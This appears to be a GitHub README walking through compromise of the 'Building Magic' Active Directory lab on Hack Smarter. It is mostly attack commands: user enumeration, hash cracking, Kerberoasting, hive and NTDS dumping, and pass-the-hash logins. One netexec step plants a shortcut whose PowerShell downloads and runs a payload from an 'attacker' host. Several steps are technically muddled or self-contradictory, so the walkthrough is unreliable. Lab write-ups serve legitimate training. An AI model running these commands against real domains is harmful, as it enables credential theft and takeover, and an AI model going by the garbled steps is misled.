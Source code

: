 inksec.io – AD Box “Building Magic” (Hack Smarter)
Author: Brady McLaughlin
Date: 5 Sept 2025

📖 Overview
This repository contains a step‑by‑step write‑up for the medium‑difficulty Building Magic Active Directory (AD) machine hosted on Hack Smarter (courses.hacksmarter.org).
Following the methodology below (without copying any flags) yields a full compromise of the target system.

🛠️ Prerequisites
Tool	Purpose
nmap	Port scanning / service discovery
cut, awk	Text processing of CSV dumps
kerbrute	Validate domain usernames
hashcat + rockyou.txt	Crack NTLM hashes
netexec (Impacket)	Remote command execution, credential validation
bloodhound‑ce‑python / bloodyAD	AD graph collection & privilege path analysis
GetUserSPNs.py (Impacket)	Enumerate Kerberoastable SPNs
slinky (netexec)	Write malicious .lnk files to SMB shares
Responder	Capture NetNTLMv2 hashes
WinRM (evil‑winrm / pypsrp)	Remote PowerShell execution
samdump2 / secretsdump.py	Extract SAM/NTDS hashes
Tip: All tools are available via pip or the Kali Linux repositories.

🚀 Attack Flow
1️⃣ Recon & Enumeration
# Ping the host
ping buildingmagic.hacksmarter.org

# Add hostname to /etc/hosts (as instructed)
echo "10.10.10.42 buildingmagic.hacksmarter.org" >> /etc/hosts

# Quick nmap scan
nmap -sC -sV buildingmagic.hacksmarter.org
Copy
Result: typical Domain Controller services (LDAP, SMB, RDP, WinRM, etc.).

2️⃣ Harvest User List
A CSV dump is supplied in the lab material. Clean it:

cut -d',' -f2 users.csv | tail -n +2 > usernames.txt
Copy
Validate usernames against the domain:

kerbrute userenum usernames.txt -d hacksmarter.org -dc-ip 10.10.10.42
Copy
Only one valid user is discovered (e.g., h.potch).

3️⃣ Crack the User’s NTLM Hash
Extract the hash from the CSV, then:

hashcat -m 1000 -a 0 <hash> rockyou.txt --force
Copy
Successful crack → obtain clear‑text password.

Verify credentials:

netexec -u h.potch -p <password> buildingmagic.hacksmarter.org cmd
Copy
4️⃣ Lateral Movement – BloodHound Collection
bloodhound-python -u h.potch -p <password> -d hacksmarter.org \
    -c all -ns 10.10.10.42 -gc 10.10.10.42
Copy
Exported graph reveals several privileged paths (Kerberoasting, write‑able SMB share, etc.).

5️⃣ Kerberoasting
GetUserSPNs.py hacksmarter.org/h.potch:<password>@buildingmagic.hacksmarter.org
Copy
Crack the retrieved SPN hashes with hashcat → gain additional domain credentials (h.grangon).

6️⃣ Abuse Write‑able SMB Share
Mount the empty share and drop a malicious shortcut:

netexec -u h.potch -p <pwd> buildingmagic.hacksmarter.org \
    -M slinky -o "/share/malicious.lnk" -c "powershell -c \"Invoke-WebRequest http://attacker/payload.ps1 -OutFile $env:TEMP\payload.ps1; powershell -ExecutionPolicy Bypass -File $env:TEMP\payload.ps1\""
Copy
When a legitimate user opens the share, the shortcut triggers a Responder listener, capturing a NetNTLMv2 hash.

Crack the captured hash → obtain the password for h.grangon.

7️⃣ Privilege Escalation via SeBackupPrivilege
h.grangon belongs to Remote Management Users → WinRM access.

evil-winrm -i 10.10.10.42 -u h.grangon -p <pwd>
Copy
Check privileges:

whoami /priv
Copy
SeBackupPrivilege allows dumping registry hives:

reg save HKLM\SYSTEM system.hive
reg save HKLM\SAM sam.hive
Copy
Extract local SAM hashes (samdump2 or secretsdump.py).

8️⃣ Harvest Administrator Hashes
BloodHound shows another high‑privileged user: a.flatch (member of Domain Admins).
Using the previously cracked SAM hash, authenticate as a.flatch and dump the NTDS.dit file:

secretsdump.py -ntds ntds.dit -system system.hive -outputfile ntds_dump
Copy
Now we possess the Administrator hash.

9️⃣ Final Access & Flag Retrieval
WinRM into the machine with the Administrator hash:

evil-winrm -i 10.10.10.42 -u Administrator -H <admin_hash>
Copy
Navigate to the flag location (commonly /root/flag.txt or C:\Users\Public\flag.txt) and read it.

type C:\root\flag.txt
Copy
The flag is displayed – the box is fully compromised.

📂 Repository Structure
├─ README.md          ← This document
├─ scripts/
│   ├─ enumerate.sh   ← nmap + host file helper
│   ├─ kerbrute.sh    ← username validation wrapper
│   └─ winrm_ps.ps1   ← PowerShell snippets for privilege checks
└─ notes/
    └─ bloodhound_paths.txt   ← Exported shortest‑path queries
Copy
(Scripts are illustrative; adapt paths/credentials to your environment.)

🎓 Lessons Learned
User enumeration via kerbrute quickly narrows the attack surface.
Kerberoasting remains a reliable way to harvest service‑account hashes in AD environments.
Writable SMB shares combined with shortcut attacks (.lnk) are an effective pivot to capture NTLM hashes.
SeBackupPrivilege enables offline SAM/NTDS extraction without needing SYSTEM rights.
BloodHound visualisation dramatically shortens the path‑finding phase.
🙏 Acknowledgements
Hack Smarter – Lab platform and challenge design.
Noah Heroldt & Haik Isikbay – Challenge creators.
Brady McLaughlin – Original author of the write‑up.
Feel free to fork this repo, experiment with alternative tools (e.g., SharpHound, Rubeus), or extend the methodology to other AD labs.
